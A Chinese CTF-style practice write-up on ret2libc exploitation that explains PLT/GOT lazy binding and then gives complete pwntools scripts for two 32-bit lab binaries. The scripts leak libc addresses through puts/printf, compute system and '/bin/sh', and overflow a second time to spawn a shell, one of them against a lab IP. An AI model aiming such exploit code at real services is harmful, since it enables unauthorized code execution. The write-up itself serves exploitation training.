# reb2libc二次溢出练习

>ret2libc攻击的核心原理：通过泄露一个地址，计算出整个libc的基址，从而调用任意libc函数！

## PLT/GOT
### 什么是PLT和GOT

>PLT (Procedure Linkage Table)：程序关联表

- 是代码段中的一段跳转表

- 每个外部函数都有一个对应的PLT条目

- 它是函数的"代理入口"，不是真实地址

>GOT (Global Offset Table)：全局偏移表

- 是数据段中的地址表

- 存储外部函数的真实内存地址

- 动态链接器会填充这些地址

**为什么要泄露 puts@got 而不是 puts@plt**

>puts@plt 是固定偏移（在二进制文件中），每次运行都一样

>puts@got 存储的是真实地址，ASLR导致每次运行不同

*ASLR (Address Space Layout Randomization)*
```text
没有ASLR时：
    libc基址 = 0xf7d00000 (固定)
    system地址 = 0xf7d4a000 (固定)

有ASLR时：
    第1次运行：libc基址 = 0xf7c00000
    第2次运行：libc基址 = 0xf7d00000
    第3次运行：libc基址 = 0xf7e00000
    system地址也随之变化
```
### ELF — PLT / GOT 动态链接过程
>printf@PLT → printf@GOT → ld-linux → libc

**流程图**
```
控制流跳转（call/jmp）
|
GOT 未解析，落回 PLT+6 
|
链接器写入 GOT（解析完成）
|
第2次调用直达 libc
```

**printf@PLT 桩代码** 
```
jmp *printf@GOT.plt 
push 0x0 ;              //printf 的重定位索引
reloc_idx jmp PLT[0]    //→ PLT[0] 解析入口
```

**PLT[0] 通用解析桩**
```
push *(0x804a004) ; GOT[1] = link_map       //压入 link_map（所有已加载 .so 的链表头
jmp  *(0x804a008) ; GOT[2] = _dl_runtime_resolve    //jmp 进入动态链接器的 _dl_runtime_resolve 函数，开始运行时符号查找流程
```

**在libc.so中查找的汇编**

>链接器根据 reloc_idx 查 .rel.plt 表，提取符号名 "printf"，遍历 link_map 中各已加载共享库的动态符号表，在 libc.so 中找到 printf 的运行时地址。

```
_dl_runtime_resolve 内部
1. 读 reloc_idx → 查 .rel.plt[0]
2. 取符号名 → "printf"
3. 遍历 link_map → 搜各 .so
4. libc.so .dynsym 命中 → 0xf7e3d5f0
```

**链接器回写 GOT**

>链接器将 printf 真实地址写入 GOT[printf]。从此 GOT 永久记录真实地址——这就是「懒绑定」完成的标志，之后所有调用都将跳过解析流程。

**懒绑定（lazy binding）完整步骤**

```
① main() 执行 call printf
|
② printf@PLT: jmp *GOT[printf]
|
③ GOT 未解析 → 落回 PLT+6
|
④ push reloc_idx + jmp PLT[0]
|
⑤ PLT[0] → _dl_runtime_resolve
|
⑥ 链接器在 libc.so 中查找 printf  
|
⑦ 链接器将真实地址写入 GOT
|
⑧ 真实 printf 执行
|
⑨ 第2次调用：快速路径直达 libc
```

>GOT 已有真实地址后，PLT 的 jmp *GOT 直飞 libc.so 中的 printf，完全跳过动态链接器。这就是 lazy binding 的效率：只有第一次慢，此后每次仅多一次内存间接跳转开销。

## ret2libc3
### 静态分析

**checksec ret2libc3**

栈不可执行
i386编译

**strings ret2libc3 | grep system**

没有system函数

**strings ret2libc3 | grep /bin**

没有/bin/sh字符串

### 动态分析

**info file**

0x0804a040 - 0x0804a0e4 is .bss

**vmmap 0x0804a040**

.bss可写

**x/100s 0x0804a040**

选空位置作为bss_addr：0x804a048

**disass main**

调用了gets函数存在溢出漏洞

**计算offset**


**cyclic -l daab**

offset=112

**ROPgadget --binary ret2libc3 --only 'int'**

没有int 80，无法直接调用execve

### 利用思路 
>找出编译该程序使用的库
>
>利用溢出漏洞泄露一个已加载函数的真实地址
>
>计算基址link_base=真实地址-link('函数')
>
>计算真实system=link.so(system)地址+link_base
>
>二次溢出调用system函数

**第一次溢出栈布局**

```
buf
|
|       108
|
ebp     4
|
ret     ————>   put_plt_addr
|
put_ret ————>   main_addr
|
put_arg ————>   put_got_addr

```

**查询需要的信息**

main函数的地址0x08048618

puts@plt的地址0x08048460

*泄露真实puts地址*

*查找使用的库和system的真实地址*
```
from pwn import *
from LibcSearcher import *
p= process('./ret2libc3')
elf=ELF('ret2libc3')

context.terminal=['tmux','splitw','-h']
context.log_level='debug'
offset1=112
put_plt_addr=elf.plt['puts']
put_got_addr=elf.got['puts']
main_addr=elf.symbols['main']

payload=b'A'*offset1+p32(put_plt_addr)+p32(main_addr)+p32(put_got_addr)
p.sendline(payload)
p.recvuntil(b'!?')
puts_real_addr=u32(p.recvn(4))
print('leak_real_puts_addr is:',hex(puts_real_addr))

libc=LibcSearcher('puts',puts_real_addr)

puts_offset=libc.dump('puts')
libc_base=puts_real_addr-puts_offset

system_offset=libc.dump('system')
system_addr=hex(libc_base+system_offset)

print('leak_real_system_addr is:',system_addr)


p.interactive()
```


*计算二次溢出点*

```
from pwn import *
from LibcSearcher import *
p= process('./ret2libc3')
elf=ELF('ret2libc3')

context.terminal=['tmux','splitw','-h']
context.log_level='debug'
offset1=112
put_plt_addr=elf.plt['puts']
put_got_addr=elf.got['puts']
main_addr=elf.symbols['main']

payload=b'A'*offset1+p32(put_plt_addr)+p32(main_addr)+p32(put_got_addr)
p.sendline(payload)
p.recvuntil(b'!?')
puts_real_addr=u32(p.recvn(4))
print('leak_real_puts_addr is:',hex(puts_real_addr))

libc=LibcSearcher('puts',puts_real_addr)

puts_offset=libc.dump('puts')
libc_base=puts_real_addr-puts_offset

system_offset=libc.dump('system')
system_addr=hex(libc_base+system_offset)

print('leak_real_system_addr is:',system_addr)

gdb.attach(p)

p.interactive()

```


offset2=104

**PoC**
```
from pwn import *
from LibcSearcher import *
p= process('./ret2libc3')
elf=ELF('ret2libc3')

context.terminal=['tmux','splitw','-h']
context.log_level='debug'
offset1=112
put_plt_addr=elf.plt['puts']
put_got_addr=elf.got['puts']
main_addr=elf.symbols['main']

payload=b'A'*offset1+p32(put_plt_addr)+p32(main_addr)+p32(put_got_addr)
p.sendline(payload)
p.recvuntil(b'!?')
puts_real_addr=u32(p.recvn(4))
print('leak_real_puts_addr is:',hex(puts_real_addr))

libc=LibcSearcher('puts',puts_real_addr)


libc_base=puts_real_addr-libc.dump('puts')

system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')
#gdb.attach(p)
offset2=104
exp=b'A'*offset2+p32(system_addr)+p32(bin_sh_addr)+p32(bin_sh_addr)

p.sendline(exp)

p.interactive()
```


## ret2libc3new
### 静态分析
**checksec ret2libc3new**


### 动态分析

**info func**


**disass vuln**

有gets函数和printf函数可以利用

**offset**


**printf函数**

函数签名printf(format, arg1);

*需要传入两个参数*




0x804c080 .bss

**栈布局**
```
buf
|
|       108
|
ebp     4
|
ret ————>   gets_plt_addr
|
gets_ret_addr ————>   popret_addr
|
gets_arg  ————>     format_str_addr   <———— pop_arg
|
popret_ret_addr ———— >  printf_plt_addr
|
printf_ret ————>    vuln_addr
|
printf_arg1 ————>   format_str_addr 
|
printf_arg2 ————>   printf_got_addr
```

**ROPgadget --binary ret2libc3new --only 'pop|ret'**

0x08049022 : pop ebx ; ret


**PoC**
```
from pwn import *
from LibcSearcher import *

p=remote('172.16.30.199',32768)
elf=ELF('ret2libc3new')
offset=112

printf_plt_addr=elf.plt['printf']
printf_got_addr=elf.got['printf']
vuln_addr=elf.symbols['vuln']
format_str_addr=0x0804c080
gets_ret_addr=0x08049022
gets_plt_addr=elf.plt['gets']
payload=b'A'*offset+p32(gets_plt_addr)+p32(gets_ret_addr)+p32(format_str_addr)+p32(printf_plt_addr)+p32(vuln_addr)+p32(format_str_addr)+p32(printf_got_addr)

p.sendline(payload)
p.sendline(b"%.4s") 
p.recvuntil(b'archived.\n')
leak_addr=u32(p.recvn(4))
print('leak_print_addr:',hex(leak_addr))

libc=LibcSearcher('printf',leak_addr)
libc_base=leak_addr-libc.dump('printf')

system_addr=libc_base+libc.dump('system')
print('system_addr:',hex(system_addr))

binsh_addr=libc_base+libc.dump('str_bin_sh')

offset2=112
exp=b'A'*offset2+p32(system_addr)+p32(binsh_addr)+p32(binsh_addr)
p.sendline(exp)
p.interactive()
```
**泄露地址**


leak_print_addr: 0xf7de6d30

**计算system地址**


**计算二次溢出点**

>手动gdb调试二次溢出就卡住崩溃
>
>采用程序自动计算二次溢出点

```
offset2=cyclic(120)

p.sendline(offset2)
p.wait()
core=p.corefile

eip=core.eip
offset2=cyclic_find(eip)

printf(offset2)
```




*flag*


